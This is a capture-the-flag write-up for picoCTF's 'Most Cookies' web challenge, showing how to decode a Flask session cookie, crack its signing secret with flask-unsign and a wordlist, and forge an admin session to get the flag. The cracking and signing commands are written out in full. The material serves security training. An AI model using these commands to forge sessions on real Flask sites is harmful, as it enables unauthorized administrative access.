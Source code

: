 # Web Exploitation --> Most Cookies.
This is [Link-Lab](https://play.picoctf.org/practice/challenge/177?category=1&page=1&solved=1).
# Solve Most Cookies.
1- Download `Server.py` and open url --> `http://mercury.picoctf.net:53700/`, then trace the python file and check the web site.
<br />

![0](screenshots/0.png)
<br />

2- Try check the value session, and try search about `flask cookie ctf` --> `https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask`.
<br />

![1](screenshots/1.png)
<br />

3- Try copy and past the `session` until decoded `base64` --> `echo session | base64 -d`.
<br />

![2](screenshots/2.png)
<br />

4- Try change the session cookie --> `flask-unsign --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y5bjCA.msY_zZLgWQ3KjZI9s7dI1VFC7y8' --wordlist .\common.txt --no-literal-eval` --> to know the type of cookie `peanut butter`.
<br />

![3](screenshots/3.png)
<br />

5- Try signed as `admin` --> `flask-unsign --sign --cookie '{"very_auth":"admin"}' 'peanut butter'` to get the his session and copy past in `session value`.
<br />

![4](screenshots/4.png)
<br />

6- finally, copy past the flag to solve it.
<br />

![5](screenshots/5.png)
<br/>

7- OR run the script `python3 solve.py session`, and copy past the session --> solved the lab.
<br />

![6](screenshots/6.png)
<br />